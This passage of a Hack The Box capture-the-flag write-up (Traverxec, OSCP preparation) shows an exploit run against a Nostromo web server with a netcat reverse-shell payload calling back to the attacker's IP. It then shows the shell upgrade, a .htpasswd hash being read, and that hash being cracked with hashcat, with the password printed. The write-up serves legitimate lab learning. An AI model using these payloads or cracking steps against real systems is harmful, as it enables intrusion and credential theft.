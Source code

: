 The exploit works, I can now get a reverse shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/traverxec]
└─$ python 47837.py traverxec.htb 80 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 4444 >/tmp/f"
```

I look at the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/traverxec]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.165] 43628
/bin/sh: 0: can't access tty; job control turned off
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
export TERM=xterm
www-data@traverxec:/usr/bin$ 
zsh: suspended nc -lvnp 4444
                 
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/traverxec]
└─$ stty raw -echo; fg
[1]  + continued nc -lvnp 4444
www-data@traverxec:/usr/bin$
```

I'm not able to read the user flag, so I need to privesc first.

# Privesc

---

## www-data → david

---

I used LinPEAS to find useful informations. I found this config file with credentials in it:

```bash
www-data@traverxec:/usr/bin$ cd /var/nostromo/conf
www-data@traverxec:/var/nostromo/conf$ cat .htpasswd 
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

I can crack this hash using hashcat and mode 500:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/traverxec]
└─$ hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt
...[snip]...
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me    
...[snip]...
```
